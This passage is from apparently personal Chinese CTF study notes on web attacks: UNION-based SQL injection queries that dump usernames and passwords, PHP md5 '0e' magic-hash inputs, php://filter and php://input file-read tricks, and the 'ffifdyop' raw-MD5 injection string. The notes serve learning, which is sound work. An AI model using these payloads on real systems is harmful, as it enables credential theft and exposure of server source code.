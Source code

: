 ```
where table_schema=库名十六进制# 
（库名十六进制可以用database()代替） 
3. 查列名 union select group_concat(0x0a,column_name)
,2 from information_schema.columns 
where table_schema=database() and table_name=’users’# （
也可以把表名改为十六进制编码0x7573657273） 
4. 查需要的信息（用户名和密码） 
union select group_concat(distinct 0x0a,user_id,0x0a,first_name,0x0a,
last_name,0x0a,user,0x0a,password,0x0a),
2 from users #
 
总结的都比较散碎也比较基础，以后积累的多了一些之后再来继续补充。


```

< 用这个表示\u003c   >用这个表示 \u003e 

[^]: 

序列化学习网址

https://www.cnblogs.com/youyoui/p/8610068.html 

```
1、当在一个网页上找不到任何信息时，要查看他有没有robots.txt 或者前面的备份文件
 
2、extract() 函数从数组中将变量导入到当前的符号表。通俗的讲 就是可以将键变成变量名，键值可以变成变量名的值
 
sha1（）和md5（）都可以用数组绕过 而md5加密后判断相等时只要是0e字符串都会返回true
 
QNKCDZO 0e830400451993494058024219903391 s878926199a 0e545993274517709034328855841020 s155964671a 0e342768416822451524974117254469 s214587387a 0e848240448830537924465865611904
 
 
 
3、file_get_contents（） 可以使用php://input传过去 再用post构建其里面的内容
 
include() 可以使用
 
PHP://filter/read=convert.base64-encode/resource=文件名(如index.php) 也可以使用上述的方法。
```

sql md5

看到这里的提交参数被MD5再组合进SQL查询语句，导致常规的注入手段几乎都失效了

但是注意到，MD5之后是hex格式，转化到字符串时如果出现'or'xxxx的形式，就会导致注入

这里提供一个字符串：ffifdyop

md5(ffifdyop,32) = 276f722736c95d99e921722cf9ed621c

转成字符串为'or'6�]��!r,��b

从而完成了注入
